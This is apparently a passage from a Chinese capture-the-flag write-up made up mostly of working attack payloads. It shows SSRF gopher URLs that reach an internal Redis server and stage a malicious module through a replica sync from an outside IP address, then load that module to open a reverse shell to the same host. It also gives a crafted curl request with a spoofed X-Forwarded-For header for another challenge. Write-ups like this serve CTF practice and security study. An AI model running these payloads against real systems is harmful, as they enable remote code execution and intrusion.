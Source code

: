 ```
gopher://0.0.0.0:6379/_auth%2520root%250aconfig%2520set%2520dir%2520%252ftmp%252f%250aquit
```

下载

```
gopher://0.0.0.0:6379/_auth root
config set dbfilename exp.so
slaveof 8.142.93.103 7777
quit
```

记得二次url编码

```
gopher://0.0.0.0:6379/_auth%25%32%30%25%37%32%25%36%66%25%36%66%25%37%34%25%30%61%25%36%33%25%36%66%25%36%65%25%36%36%25%36%39%25%36%37%25%32%30%25%37%33%25%36%35%25%37%34%25%32%30%25%36%34%25%36%32%25%36%36%25%36%39%25%36%63%25%36%35%25%36%65%25%36%31%25%36%64%25%36%35%25%32%30%25%36%35%25%37%38%25%37%30%25%32%65%25%37%33%25%36%66%25%30%61%25%37%33%25%36%63%25%36%31%25%37%36%25%36%35%25%36%66%25%36%36%25%32%30%25%33%38%25%32%65%25%33%31%25%33%34%25%33%32%25%32%65%25%33%39%25%33%33%25%32%65%25%33%31%25%33%30%25%33%33%25%32%30%25%33%37%25%33%37%25%33%37%25%33%37%25%30%61%25%37%31%25%37%35%25%36%39%25%37%34
```

执行命令

```
gopher://0.0.0.0:6379/_auth root
module load /tmp/exp.so
system.rev 8.142.93.103 2333
quit
```

题目环境好像出网但是又没有完全出 我不多说了，内网的redis链接不上的主机。 我本地测试payload没问题。

```
gopher://0.0.0.0:6379/_auth%2520root%250d%250aconfig%2520set%2520dir%2520/tmp/%250d%250aquit
gopher://0.0.0.0:6379/_auth%2520root%250Aconfig%2520set%2520dbfilename%2520exp.so%250Aslaveof%25208.142.93.103%25207777%250Aquit
gopher://0.0.0.0:6379/_auth%2520root%250Amodule%2520load%2520%252Ftmp%252Fexp.so%250Asystem.rev%25208.142.93.103%25206666%250Aquit
```



## 0x04 

```
curl -i -X PUT 'http://node4.buuoj.cn:27746/hurdles/!?get=flag&%26%3D%26%3D%26=%2500%0a' -u 'player:54ef36ec71201fdf9d1423fd26f97f6b' -A '1337 Browser v.9000' -H 'X-Forwarded-For:13.37.13.37,127.0.0.1' -b 'Fortune=6265' -H 'Accept:text/plain' -H 'Accept-Language:ru;' -H 'origin:https://ctf.bsidessf.net' -H 'Referer:https://ctf.bsidessf.net/challenges'
```

记得一点`-u`

## 0x05 [PASECA2019]honey_shop
